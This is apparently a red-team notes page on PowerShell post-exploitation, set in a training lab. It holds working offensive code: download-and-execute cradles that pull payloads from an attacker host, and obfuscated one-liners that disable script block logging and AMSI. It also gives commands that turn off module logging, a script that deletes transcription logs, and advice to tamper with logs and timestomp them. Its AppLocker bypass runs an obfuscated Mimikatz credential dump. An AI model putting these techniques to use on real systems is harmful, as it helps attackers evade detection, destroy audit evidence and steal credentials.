


# PowerShell

## PowerShell

**PowerShell** **(PS)** is not just `powershell.exe`—it’s an automation framework built on the .NET assembly `System.Management.Automation.dll`. This DLL is the core engine that drives all PS functionality, and can be hosted by any .NET application, not just the shell itself. Think of .NET as the toolbox, the DLL as a power tool, and PS as the app that puts it to work.

PS provides a CLI interface, a scripting language, and a configuration and automation framework. It is cross-platform, scriptable, and integrates deeply with Windows internals, making it ideal for red team operations and post-exploitation tooling.

PS supports flexible script execution, including in-memory loading:

```powershell
# Dot-source a script into the current session
. c:\ad\tools\PowerView.ps1

# Import a module (manifest or binary)
Import-Module c:\ad\tools\ActiveDirectory.psd1

# List commands from a loaded module
Get-Command -Module <ModuleName>
```

## Cradles

A **cradle** is a technique to download and execute PS code directly in memory to avoid writing to disk—commonly used for payload delivery and evasion.



```powershell
iex (iwr 'http://attacker/payload.ps1')
```



Legacy method:

```powershell
iex (New-Object Net.WebClient).DownloadString('http://attacker/payload.ps1')
```



Less commonly used:

```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP
$h.open('GET','http://webserver/payload.ps1',$false)
$h.send()
iex $h.responseText
```



Older method:

```powershell
$ie=New-Object -ComObject InternetExplorer.Application
$ie.visible=$False
$ie.navigate('http://webserver/payload.ps1')
sleep 5
$response=$ie.Document.body.innerHTML
$ie.quit()
iex $response
```



## Security Controls


**OPSEC**: Instead of fully deleting `PSReadLine` history files or System-Wide Transcription logs—which can raise suspicion due to sudden absence—an alternative approach is to surgically **modify the log contents**. This involves removing or altering only the suspicious lines while preserving the rest of the file to maintain plausible integrity. Tools like [SharpStomp](https://github.com/kafkaesqu3/SharpStomp) can be used to timestomp the file back to its original modified date.


### PSReadLine History

The `PSReadLine` module enhances the PowerShell command-line editing experience by providing syntax coloring, multi-line editing, and powerful keyboard shortcuts. `PSReadLine` history refers to its ability to store, search, and reuse previously entered commands, enabling easier recall and editing of past input. This history can persist across sessions, making frequently used commands readily accessible.

If we need to bypass it, we can just remove the module:

```powershell
Remove-Module PSReadLine
```

### Script Block Logging

Script Block Logging (SBL) **captures and records the content of all script blocks processed by the PowerShell engine**, regardless of the host application used to invoke PowerShell. This includes executions from PowerShell.exe, PowerShell ISE, Visual Studio Code terminals, scheduled tasks, remote sessions, and any custom applications embedding the PowerShell engine, which resides in the `System.Management.Automation` namespace.&#x20;

When longer scripts are executed, they are split across multiple Event ID `4104` entries in the Microsoft-Windows-PowerShell/Operational log, all sharing the same ScriptBlock ID for correlation. If **Invocation Logging** **(IL)** is enabled, Event ID `4105` marks the beginning of a session and `4106` indicates its end.

IL is a PS logging feature that records details about **how scripts and commands are executed**. Unlike SBL, which logs the content of the script blocks, IL captures metadata such as parameter values, user context, and the exact command invocation. For example, if a command like this is run:


```powershell
Invoke-Command -ScriptBlock { Get-Process -Name $args[0] } -ArgumentList "explorer"
```


**SBL** won't log `"explorer"` as the argument value; it will log something like: `Get-Process -Name $args[0]`. In contrast, IL would log that `Get-Process` was called with the `-Name` parameter set to `"explorer"`.

SBL is typically **enabled by default** on modern Windows systems. However, due to the large volume of logs generated, **SBL is often disabled in production environments**. When enabled, it can be queried directly using PowerShell or the Windows Event Viewer:


```powershell
Get-WinEvent -LogName 'Microsoft-Windows-PowerShell/Operational' -FilterXPath '*[System[(EventID=4104)]]' -MaxEvents 5 | Format-Table TimeCreated,Message -Wrap
```


Reflection is a powerful .NET capability that attackers can weaponize to manipulate PowerShell’s internal behavior at runtime, and in this case, disable script block telemetry without leaving obvious traces:


```powershell
[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'tw'+'Provid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```


We can test it as follows:


```powershell
# Check the number of 4104 logs
Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count

# Test command that generates a 4104 log
Get-Module -ListAvailable | Format-Table Name, LogPipelineExecutionDetails

# Check again (+1) → Execute the bypass → Test Command → Check again (same)
```


### Module Logging

**Module Logging (ML)**, introduced in PowerShell 3.0, is a logging feature that **captures pipeline and command execution events**. Its behavior is controlled by the `LogPipelineExecutionDetails` property on each PowerShell module or snap-in. By default, this property is set to `False`, meaning that most modules do not generate logs unless explicitly configured to do so.


A **snap-in** (`PSSnapin`) is a legacy method used to extend PS by adding additional cmdlets and providers. Snap-ins are compiled .NET assemblies—typically DLLs—that register with PowerShell and make new functionality available. Snap-ins were commonly used in **PS versions 1.0 and 2.0**, before **modules** were introduced in **PS 2.0** and became the modern standard from version 3.0 onward. While still supported for backward compatibility, snap-ins are rarely used in modern environments.


```powershell
# Check the value of LogPipeLineExectuionDetails
Get-Module -ListAvailable | Format-Table Name, LogPipelineExecutionDetails

Name                                      LogPipelineExecutionDetails
----                                      ---------------------------
Microsoft.PowerShell.Operation.Validation                       False
PackageManagement                                               False
```

Disabling ML as an evasion technique involves setting `LogPipelineExecutionDetails` to `False` for any relevant module or snap-in:

```powershell
# Check the number of 4103 logs
Get-WinEvent -LogName "windows Powershell" | Measure | % Count

# Bypass ML
$module = Get-Module Microsoft.PowerShell.Utility
$module.LogPipelineExecutionDetails = $false
$Snapin = Get-PSSnapin Microsoft.PowerShell.Core
$Snapin.LogPipelineExecutionDetails = $false

# Command that generate a 4103 (relies on the Microsoft.Powershell.Core snap-in)
Get-Command

# Check the number of 4103 logs again
```

### System Wide Transcription

System-Wide Transcription (SWT) is a PS feature that **records all input and output from any host using the PS engine**, including interactive sessions, scheduled tasks, and remote executions. Unlike SBL, which logs parsed code, transcription behaves more like a keystroke logger, **capturing raw commands and their corresponding output**. This logging operates independently of the host application and is similar in scope to SBL, but with a greater focus on full-session context.

Introduced with Windows PS 5.0, it supports both **nested transcription** and **system-wide logging**, automatically generating plaintext logs in a specified directory defined via Group Policy. These logs are **not protected or encrypted**, meaning they can be easily deleted or tampered with if the path is known. In most environments, **SWT is rarely enabled due to operational overhead and lack of default deployment**.


```powershell
# Define the registry path where system-wide transcription settings are stored.
# If transcription is configured via Group Policy, this key will exist.
$basePath = "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\Transcription"

# Check if the transcription configuration key exists.
if (Test-Path $basePath) {
    
    # Attempt to extract the OutputDirectory value, which defines where transcript logs are saved.
    $a = Get-ItemProperty $basePath -Name OutputDirectory | Select-Object -ExpandProperty OutputDirectory

    # If the registry lookup fails, indicate that transcription is not configured.
    If (!$?) {
        'Not Configured'
    } Else {

        # If the output directory exists, enumerate and delete all log files within.
        # This removes raw PowerShell input/output logs captured by SWT.
        If (Test-Path -Path $a) {
            Get-ChildItem -Path $a | Remove-Item -Force -Confirm:$false -Recurse
        } Else {
            # If the log path doesn't exist (e.g., was moved or deleted), notify and move on.
            'Log path not found.'
        }
    }
} Else {
    # If the registry key isn't present, system-wide transcription is not active on the host.
    'Not Configured'
}
```


### Defender & AMSI

**Microsoft Defender (MD)** is the built-in antivirus component of Windows, primarily relying on static signatures and heuristic analysis to detect and **alert on malicious files present on disk**. However, this traditional file-based detection is only one layer of Microsoft's security stack.

[AmsiTrigger](https://github.com/RythmStick/AMSITrigger) and [DefenderCheck](https://github.com/matterpreter/DefenderCheck) help identify and iteratively sanitize code segments that trigger AV/EDR detections. The concept is: Scan → Manually modify → Rescan → Repeat until success.



```powershell
AmsiTrigger_x64.exe -i PowerUp.ps1
```



```powershell
DefenderCheck.exe PowerUp.ps1
```



To enhance script-based detection, Microsoft introduced the **Anti-Malware Scan Interface (AMSI)**. AMSI allows applications and services—including PowerShell, WScript, and other scripting engines—to interface directly with registered antivirus solutions. Its core function is to **scan** **script content before execution**, regardless of how the script is delivered: from disk, as an encoded command, through a memory-only payload, or interactively typed. Upon interception, **AMSI passes the script to the AV engine**, enabling detection even when the payload never touches disk.&#x20;

If malicious code is detected, it triggers Event ID `1116` (threat detected) and `1117` (action taken) in the Microsoft-Windows Defender/Operational log.


```powershell
Get-WinEvent -LogName 'Microsoft-Windows Defender/Operational' -FilterXPath "*[System[((EventID=1116) or (EventID=1117))]]" -MaxEvents 5 | Format-Table TimeCreated,Message -Wrap
```


For offensive operations, **AMSI bypasses** are essential when using PS or other scripting tools. Effective bypasses must **evade both AMSI itself and the real-time scanning capabilities of Defender**. Public techniques such as [Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell) or [amsi.fail](https://amsi.fail/) demonstrate in-memory patching to disable AMSI functionality, though **many known bypasses are now detected by Defender**. To maintain stealth, the bypass payload chould be fully obfuscated using tools like [Invoke-Obfuscation](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/) or [Chameleon](https://x7331.gitbook.io/notes/), ensuring that the AMSI disabling logic does not trigger detection on its own.


With **memory-loaded scripts** PS or other scripting engines load and parse script text in memory. AMSI scans this content before execution, regardless of source. However, with **memory-injected scripts** the code is injected as raw binary instructions directly into memory, bypassing the script engine’s parser. AMSI never gets a chance to scan because no script text is involved.



```powershell
# An example AMSI bypass
 S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x')
) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U')
+'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -
f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f
'.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f
'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( (
"{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))
),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -
f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```


### Execution Policy

Execution Policy (EP) is often misunderstood as a security control, but in reality, it is **designed primarily to manage how PS scripts run to prevent accidental or unintended execution**. It sets boundaries on script execution for convenience and safety but does not block or protect against malicious actors who have sufficient privileges to bypass or change the policy. Therefore, EP should never be relied upon as a security barrier in offensive or defensive scenarios.

```powershell
# Execution policy bypasses
powershell -ep bypass
powershell -ExecutionPolicy Bypass -File script.ps1
powershell -encodedcommand <base64>
$env:PSExecutionPolicyPreference = "Bypass"
```

### Invisi-Shell

[Invisi-Shell](https://github.com/OmerYa/Invisi-Shell) is a tool that bypasses SBL, ML, SWT, and AMSI at startup by hooking .NET assemblies. Depending on the privileges `RunWithRegistryNonAdmin.bat` or `RunWithPathAsAdmin.bat` can be run. Typing `exit` cleans up the session.

## Language Modes

PowerShell enforces four distinct language modes that define the scripting capabilities available within a given session. These modes are primarily used to limit script execution and reduce attack surface in hardened or constrained environments.

* **FullLanguage** is the default and most permissive mode, offering unrestricted access to all PowerShell features, including script blocks, functions, advanced logic, and full .NET interoperability.
* **RestrictedLanguage** allows only basic expressions and core syntax, blocking constructs like functions and script blocks—ideal for tightly controlled endpoints.
* **ConstrainedLanguage** is commonly enforced through Device Guard or AppLocker and permits standard cmdlets and basic scripting, but blocks external .NET types, reflection, COM, and custom objects to mitigate abuse of unmanaged code.&#x20;
* **NoLanguage** disables all scripting constructs entirely; only pre-defined cmdlets and functions may run, with no support for variables, loops, or conditionals.

This is often the cause of AMSI-related errors:


```powershell
# Connect to the target host
> Enter-PSSession dcorp-adminsrv
[dcorp-adminsrv]: PS C:\Users\student337\Documents>

# Bypass AMSI
> S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  )...
Cannot invoke method. Method invocation is supported only on core types in this language mode.

> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```


### AppLocker

When application allowlisting solutions like **AppLocker** or **Windows Defender Application Control (WDAC)** are in place, PowerShell typically runs in `ConstrainedLanguage` mode, limiting its capabilities to reduce attack surface. This restricts access to external .NET types, custom classes, and unsafe operations like COM or reflection—common techniques in many fileless attacks.

* **AppLocker is the modern evolution of Software Restriction Policies version 2 (SRPv2**), offering more advanced controls like publisher-based rules and user targeting. Both use the same underlying AppID service, and references to SRPv2 in the context of AppLocker typically point to the shared policy engine or legacy compatibility. It builds on SRPv2’s foundation with enhanced flexibility and enforcement. AppLocker is easier to deploy and configure, making it common in enterprise environments; it uses Group Policy to define rules governing which executables, scripts, DLLs, and installers can run. However, **it offers limited enforcement—local Administrators can trivially bypass it by stopping the `AppIDSvc` service**.
* **WDAC** (formerly Device Guard), on the other hand, offers stronger protection with kernel-mode enforcement and policy enforcement at boot. It’s designed for high-security use cases and enforces code integrity via cryptographically signed policies, making it **significantly harder to bypass without privileged code execution**.



The **default rules** typically allow **all users** (`S-1-1-0`) to execute from certain paths, such as `%ProgramFiles%\*`. These are trusted paths, but if an attacker places malicious scripts in these directories, they **bypass AppLocker** enforcement.


```powershell
> Get-AppLockerPolicy -Effective

Version RuleCollections RuleCollectionTypes
------- --------------- -------------------
      1 {0, 0, 0, 0...} {Appx, Dll, Exe, Msi...}
      
> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

PathConditions      : {%PROGRAMFILES%\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 06dce67b-934c-454f-a263-2515c8796a5d
Name                : (Default Rule) All scripts located in the Program Files folder
Description         : Allows members of the Everyone group to run scripts that are located in the Program Files folder.
UserOrGroupSid      : S-1-1-0 # This translates to EVERYONE
Action              : Allow
```


However, scripts cannot be dot-sourced:


```powershell
# Copy the obfuscated mimikatz to the allowed directory of adminsrv
> Copy-Item .\Invoke-Mimi.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'

# Connect to the target host
> Enter-PSSession dcorp-adminsrv
[dcorp-adminsrv]: PS C:\Users\student337\Documents> cd 'c:\program files'
[dcorp-adminsrv]: PS C:\program files> . .\Invoke-Mimi.ps1
C:\program files\Invoke-Mimi.ps1 : Cannot dot-source this command because it was defined in a different language mode. To invoke this command without importing its contents, omit the '.' operator.
```


Instead of dot-sourcing, **append (and optionally encode) the needed command directly** at the end of the script:


```powershell
$8 = "s";
$c = "e";
$g = "k";
$t = "u";
$p = "r";
$n = "l";
$7 = "s";
$6 = "a";
$1 = ":";
$2 = ":";
$z = "e";
$e = "k";
$0 = "e";
$s = "y";
$l = "s";
$Pwn = $8 + $c + $g + $t + $p + $n + $7 + $6 + $1 + $2 + $z + $e + $0 + $s + $l;
Invoke-Mimi -Command $Pwn
```


Now the script can be run directly:

```powershell
[dcorp-adminsrv]: PS C:\Users\student337\Documents> .\Invoke-Mimiv2.ps1
```



Assuming a user can modify the AppLocker GOP (e.g. `GenericAll` permissions), it can disable it via the Group Policy Management Console (`gpmc.msc`):

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Force a Group Policy update:

```powershell
[dcorp-adminsrv]: PS C:\program files> gpupdate /force
```



```powershell
GCI -path hklm:software\policies\microsoft\windows\srpv2 -recurse
```


